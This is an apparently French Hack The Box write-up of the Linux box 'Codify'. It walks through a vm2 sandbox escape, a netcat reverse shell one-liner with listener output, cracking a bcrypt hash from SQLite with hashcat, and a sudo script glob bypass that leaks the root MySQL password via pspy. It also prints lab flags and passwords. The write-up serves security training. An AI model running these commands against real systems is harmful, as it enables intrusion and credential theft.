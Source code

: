 ```yaml
---
title: Codify - HacktheBox
date: 2024-04-15 02:01:30 +0000
description: Codify est une machine Linux simple qui comporte une application web permettant aux utilisateurs de tester du code Node.js. L'application utilise une bibliothèque `vm2` vulnérable, qui est utilisée pour exécuter du code à distance. L'énumération de la cible révèle une base de données SQLite contenant un hachage qui, une fois craqué, donne un accès SSH à la Box. Enfin, un script Bash vulnérable peut être exécuté avec des privilèges élevés pour révéler le mot de passe de l'utilisateur root, conduisant à un accès privilégié à la machine.

categories: [HacktheBox]
tags: [HTB, vm2, sudo]
image:
    path: https://i.ibb.co/kDd16rd/Copie-de-Manager.png
---
```



- **[The Best Academy to Learn Hacking](https://affiliate.hackthebox.com/nenandjabhata)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


## Reconnaissance

Pour commencer je fais un petit scan sur la Box avec `nmap`
```sh
└─# nmap -sV -Pn -p- --min-rate 3000 $ip
Host is up (0.76s latency).
Not shown: 65470 closed tcp ports (reset), 62 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Je trouve un site dans le port 80 avec comme domain `codify.htb` donc je vais l'ajouter dans le `/etc/hosts`
```sh
─# echo "$ip  $host" | tee -a /etc/hosts                                  
10.10.11.239  codify.htb
```

Dans le site je trouve qu'on me dit que : *La plateforme Codify permet aux utilisateurs d'écrire et d'exécuter du code Node.js en ligne, mais certaines limitations sont en place pour garantir la sécurité de la plateforme et de ses utilisateurs.*
Ensuite dans le `about` je trouve une ligne interessante qui index le libray `Vm2`
![About](https://i.ibb.co/qWLWFjX/vm2.png)

En cliquant sur le Lien je trouve le github et aussi dans `Security` je trouve `7` vulnerabilites critique, a l'aide duquel j'utilise cet [issue](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac) pour avoir un RCE.

![RCE](https://i.ibb.co/9brxYL8/vm2.png)

En l'exploitant et en faisant un `id` je trouve `uid=1001(svc) gid=1001(svc) groups=1001(svc)`

Maintenant je vais creer un reverse shell

```sh
execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.5 1337 >/tmp/f").toString();

$sudo rlwrap nc -lnvp 1337                      
listening on [any] 1337 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.239] 37202
bash: cannot set terminal process group (1266): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ 

```

### Mouvement Lateral
Dans le `/home` je trouve un autre utilisateur `joshua`. Donc je vais recolter des informations sur cet utilisateur.

```sh
svc@codify:/home$ ls
joshua svc

ls -la *
contact:
total 120
drwxr-xr-x 3 svc  svc   4096 Sep 12  2023 .
drwxr-xr-x 5 root root  4096 Sep 12  2023 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12  2023 tickets.db

```

Pour cela je me suis rendu dans le `/var/www` puis dans le `/contact` du serveur je trouve un `tickets.db`

```sh
sqlite3 tickets.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .table.tables
.tables
tickets  users  
sqlite> SELECTSELECT * FROM users;
SELECT * FROM users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite>
```

Je trouve donc un hash de l'utilisateur en question, alors je vais utiliser `hashcat` pour la cracker

```sh
# hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt -o passwd.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz, 2868/5800 MB (1024 MB allocatable), 8MCU
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2
Time.Started.....: Mon Apr 15 02:26:15 2024 (42 secs)
Time.Estimated...: Mon Apr 15 02:26:57 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       34 H/s (7.18ms) @ Accel:8 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1408/14344387 (0.01%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 1344/14344387 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
Candidate.Engine.: Device Generator
Candidates.#1....: rayray -> ranger
Hardware.Mon.#1..: Temp: 59c Util: 93%

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

Maintenant je vais me connecter au ssh avec ce creds

## Privilege Escalation

Je trouve un script bash que je peux lancer avec `root`.
```sh
joshua@codify:~$ cat user.txt 
9612c3391fcd75f14ea72c6f06e57e3a
joshua@codify:~$ 
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Bon, je vais d'abord lire le code et voir ce que ce script fait.

```sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

En lancant ce script avec l'utilisateur `root`, Le script nous demande un mot de passe qui est comparé à celui contenu dans `/root/.creds`. S'il correspond, il utilise le mot de passe pour se connecter à mysql et exécuter quelques commandes.

Comme c'est un script `bash` on peux essayer de bypasser la demande du mot de passe avec le caractere `*` pour selectionner tout et voir

```sh
joshua@codify:~$ sudo -u root /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Ici on voit bien que tout est bon et c'est deja executer mais le probleme est qu'on voit les taches effectuer derriere ou les mot de passe qui sont entrer. Alors on va utiliser l'outil `pspy` pour voir ce qui se passe derriere.


>{ .prompt-info}
>pspy est un outil en ligne de commande conçu pour espionner les processus sans avoir besoin des autorisations `root`. Il vous permet de voir les commandes exécutées par d'autres utilisateurs, les tâches cron, etc. au fur et à mesure qu'elles s'exécutent. Il est idéal pour énumérer les systèmes Linux dans les CTF. Il est également idéal pour montrer à vos collègues pourquoi passer des secrets comme arguments sur la ligne de commande est une mauvaise idée.

```sh
joshua@codify:/tmp/priv$ ./pspy64 -f
2024/04/15 02:42:20 CMD: UID=0    PID=2625   | /bin/bash /opt/scripts/mysql-backup.sh                                                                     
2024/04/15 02:42:20 CMD: UID=0    PID=2624   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys  

```

Dans les taches executer je vois un mot de passe utiliser pour se connecter a la base de donnees `mySQL` sur le port `3306`. Alors je vais essayer cela pour acceder a l'utilisateur `root`

![Pwned](https://i.ibb.co/stLG714/pwned.png)

## Ressources supplementaires
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [ Vm2 Issue](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac)
- [Pspy](https://github.com/DominicBreuker/pspy)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
